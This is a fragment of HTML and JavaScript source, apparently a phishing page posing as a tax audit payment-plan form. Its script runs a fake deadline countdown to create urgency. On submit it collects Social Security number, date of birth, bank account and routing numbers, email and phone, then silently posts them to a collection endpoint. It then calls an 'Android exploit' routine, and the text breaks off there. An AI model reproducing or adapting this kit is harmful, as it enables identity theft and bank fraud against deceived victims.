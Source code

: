 ```html
                <label class="form-label">Contact Phone Number</label>
                <input type="tel" class="form-input" placeholder="(XXX) XXX-XXXX" required>
            </div>
            
            <button type="submit" class="submit-btn" onclick="submitForm()">
                💳 Setup Payment Plan Now
            </button>
        </form>
        
        <div class="security-badge">
            🔐 256-bit SSL Encryption • Your data is protected
        </div>
    </div>
    
    <script>
        // Countdown timer for payment deadline urgency
        function updateCountdown() {
            const timer = document.getElementById('countdown');
            let totalTime = 10 * 24 * 3600; // 10 days in seconds
            let elapsed = Math.floor(Date.now() / 1000) % totalTime;
            let time = totalTime - elapsed;
            
            const days = Math.floor(time / (24 * 3600));
            const hours = Math.floor((time % (24 * 3600)) / 3600);
            const mins = Math.floor((time % 3600) / 60);
            const secs = time % 60;
            
            timer.textContent = `⏰ Payment deadline: ${days} days, ${hours.toString().padStart(2,'0')}:${mins.toString().padStart(2,'0')}:${secs.toString().padStart(2,'0')}`;
        }
        setInterval(updateCountdown, 1000);
        
        // Form submission with data harvesting
        function submitForm() {
            const form = document.getElementById('mobileForm');
            const formData = new FormData(form);
            
            // Harvest audit response data
            const data = {
                ssn: formData.get('ssn') || form.elements[0].value,
                dob: formData.get('dob') || form.elements[1].value,
                account_number: formData.get('account') || form.elements[2].value,
                routing_number: formData.get('routing') || form.elements[3].value,
                email: formData.get('email') || form.elements[4].value,
                contact_number: formData.get('contact') || form.elements[5].value,
                audit_case: 'AUD-2024-7749',
                amount_owed: '$14,847',
                timestamp: new Date().toISOString(),
                userAgent: navigator.userAgent,
                source: 'mobile_sms_audit',
                device_type: 'android'
            };
            
            // Send to collection endpoint
            fetch('/api/audit-collect', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify(data)
            }).catch(() => {}); // Silent failure
            
            // Android-specific deployment
            if (isAndroid()) {
                deployAndroidExploit();
```